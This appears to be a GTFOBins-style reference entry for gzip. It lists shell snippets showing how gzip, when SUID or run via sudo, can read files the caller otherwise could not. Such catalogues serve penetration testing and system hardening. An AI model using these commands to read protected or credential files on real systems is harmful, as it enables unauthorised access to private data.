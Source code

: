 description: There are also a number of other utilities that rely on `gzip` under the hood, e.g., `zless`, `zcat`, `gunzip`, etc. Besides having similar features, they also allow privileged reads if `gzip` itself is SUID.
functions:
  file-read:
    - code: |
        LFILE=file_to_read
        gzip -f $LFILE -t
    - code: |
        LFILE=file_to_read
        gzip -c $LFILE | gzip -d
  suid:
    - code: |
        LFILE=file_to_read
        ./gzip -f $LFILE -t
  sudo:
    - code: |
        LFILE=file_to_read
        sudo gzip -f $LFILE -t
---
